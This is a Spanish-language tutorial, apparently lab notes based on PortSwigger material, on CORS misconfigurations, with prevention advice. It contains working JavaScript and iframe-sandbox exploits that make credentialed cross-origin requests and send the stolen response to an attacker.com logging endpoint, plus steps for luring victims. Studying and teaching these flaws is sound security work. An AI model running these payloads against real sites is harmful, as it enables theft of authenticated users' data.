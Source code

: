 # Cross-Origin Resource Sharing

## 📂 Introducción

CORS (Cross-Origin Resource Sharing) es un mecanismo implementado por los navegadores modernos que permite el acceso controlado a recursos ubicados en un dominio distinto al de la página que realiza la solicitud. Esta guía, basada en el contenido de [PortSwigger Research](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties), explica qué es CORS, cómo funciona, ejemplos de configuraciones vulnerables y cómo prevenir ataques relacionados.

## ❓ ¿Qué es CORS?

CORS es un protocolo basado en cabeceras HTTP que permite a un servidor indicar qué orígenes (dominios) externos pueden acceder a sus recursos. Su propósito es **relajar la Same-Origin Policy (SOP)**, una política de seguridad que impide que un sitio web lea contenido de otro sitio diferente.

> ⚠ Importante: CORS **no es una defensa contra ataques cross-origin como CSRF**.

## 🔐 Same-Origin Policy (SOP)

La SOP impide que scripts cargados desde un origen accedan a datos de otro origen diferente (diferente dominio, puerto o protocolo). Esta restricción protege la privacidad del usuario al evitar fugas de información entre sitios.

### Ejemplo:

Un script cargado desde `https://ejemplo.com` **no podrá acceder** al contenido de `https://api.ejemplo.com` sin una política CORS adecuada.

## ⚖️ Flexibilización controlada mediante CORS

CORS permite que el servidor indique explícitamente qué orígenes están autorizados para acceder a sus recursos, usando cabeceras como:

* `Access-Control-Allow-Origin`
* `Access-Control-Allow-Credentials`
* `Access-Control-Allow-Methods`
* `Access-Control-Allow-Headers`

El navegador realiza una "negociación" previa (preflight) cuando se trata de solicitudes complejas, utilizando el método `OPTIONS` para consultar las reglas del servidor.

## ⚡ Ejemplo de ataque por mala configuración de CORS

### Caso: servidor refleja el header `Origin`

**Solicitud maliciosa:**

```http
GET /sensitive-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://attacker.com
Cookie: sessionid=...
```

**Respuesta del servidor vulnerable:**

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
```

**Exploit en JavaScript:**

```javascript
var req = new XMLHttpRequest();
req.onload = function() {
    location = 'https://attacker.com/log?data=' + this.responseText;
};
req.open('GET', 'https://vulnerable-website.com/sensitive-data', true);
req.withCredentials = true;
req.send();
```

```javascript
// Explicación detallada del script CORS con robo de datos

// Este script utiliza XMLHttpRequest para hacer una solicitud entre sitios (cross-origin request)
// a una web vulnerable con CORS mal configurado.

var req = new XMLHttpRequest();

// req.onload:
// Esta función se ejecuta cuando la respuesta del servidor vulnerable llega.
req.onload = function() {
    // 🔒 Envío de datos robados:
    // Una vez que el navegador recibe la respuesta, se redirige a un dominio malicioso
    // incluyendo los datos sensibles como parámetro en la URL.
    location = 'https://attacker.com/log?data=' + this.responseText;
    //  Esta línea redirige el navegador del usuario hacia el dominio del atacante,
    //enviando como parámetro la respuesta completa del servidor.
};

// Configuramos la solicitud para apuntar a la información sensible
req.open('GET', 'https://vulnerable-website.com/sensitive-data', true);

// withCredentials:
// Esto indica que la solicitud debe incluir cookies de sesión, lo cual es necesario
// para acceder a datos autenticados en el sitio vulnerable.
req.withCredentials = true;

// ⏳ Enviamos la solicitud
req.send();

/*
 Resumen del flujo:
1. El navegador del usuario carga esta página (en el dominio del atacante).
2. El script hace una solicitud GET a un sitio vulnerable con CORS.
3. Si el sitio vulnerable permite origen cruzado (y Access-Control-Allow-Credentials: true),
   la respuesta se recibe en el navegador.
4. El script redirige al usuario a attacker.com incluyendo los datos robados en la URL.

Este tipo de ataque es posible sólo si:
- La web vulnerable permite el origen cruzado de forma laxa.
- Se permite el uso de cookies mediante withCredentials + Access-Control-Allow-Credentials: true.
*/
```


Este código permite al atacante **leer información sensible** desde el navegador de la víctima autenticada.

### Cómo se usa este exploit?
1) El atacante coloca este código malicioso en su sitio (attacker.com) o lo incrusta en una campaña de phishing.

2) La víctima (que está logueada en vulnerable-website.com) visita el sitio atacante.

3) El navegador de la víctima:

- Carga la página maliciosa.

- Ejecuta el JavaScript automáticamente.

- Hace una solicitud autenticada a vulnerable-website.com.

- Recibe los datos sensibles.

- Los redirige a attacker.com.

📥 El atacante recibe la información en su endpoint /log?data=....

[Lab: CORS vulnerability with basic origin reflection](1_CORS_vulnerability_with_basic_origin_reflection.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

## 🚨 Otras configuraciones inseguras

### 🔒 1. Errores en el parseo de dominios

* Whitelist mal implementada: permitir cualquier dominio que termine en `example.com` puede permitir `attackerexample.com`
* O permitir cualquier dominio que comience con `example.com` permite `example.com.attacker.com`

### 🔒 2. Whitelist que acepta `null` como origen

Navegadores pueden enviar `Origin: null` en ciertos escenarios:

* `file://` URLs
* iframes con sandbox
* Redirecciones entre sitios

**Respuesta vulnerable:**

```http
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

**Exploit con iframe sandbox:**

```html
<iframe sandbox="allow-scripts allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = function() {
  location = 'https://attacker.com/log?data=' + this.responseText;
};
req.open('GET', 'https://vulnerable.com/data', true);
req.withCredentials = true;
req.send();
</script>"></iframe>
```

[Lab: CORS vulnerability with trusted null origin](2_CORS_vulnerability_with_trusted_null_origin.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

## Consejos para prevenir ataques CORS

* **Nunca reflejar el ********`Origin`******** directamente** en `Access-Control-Allow-Origin`.
* Usar una **whitelist validada con exactitud** (sin regex permisivos).
* \*\*Nunca permitir \*\***`Access-Control-Allow-Credentials: true`** junto con `*` como origen.
* Bloquear `Origin: null` salvo que sea explícitamente necesario.
* Monitorear las cabeceras de respuesta y realizar auditorías regulares.

## 🔗 Enlaces de interés

* [CORS official MDN documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
* [Same-Origin Policy explicada](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
* [CORS vulnerability research by PortSwigger](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
* [CORS misconfig checker](https://github.com/s0md3v/Corsy)

---

